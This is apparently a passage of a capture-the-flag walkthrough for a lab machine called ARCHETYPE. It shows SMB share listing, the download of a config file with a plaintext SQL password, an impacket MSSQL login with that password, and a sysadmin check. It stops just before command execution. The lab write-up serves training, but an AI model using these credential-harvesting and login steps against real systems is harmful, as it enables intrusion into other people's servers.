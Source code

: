 ```
smb: \> ls
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

		5056511 blocks of size 4096. 2545689 blocks available

smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (1,3 KiloBytes/sec) (average 1,3 KiloBytes/sec)
```
We only see a file so we download it and check its contents `cat prod.dtsConfig`
```
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>%
```
Inside this configurations we can find a user ID and the associated password.
Password: `M3g4c0rp123`
User ID: `ARCHETYPE/sql_svc`
### MSSQL Protocol

Now that we have MSSQL credentials, we can go inside the database to check the contents by running `impacket-mssqlclient ARCHETYPE/sql_svc@${TARGET}  -windows-auth`
```
Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```
Once in check, we check the rol of the account we are currently using
```
SQL> SELECT is_srvrolemember('sysadmin');
              

-----------   

          1 
```
Since we are admin we try to run cmd commands
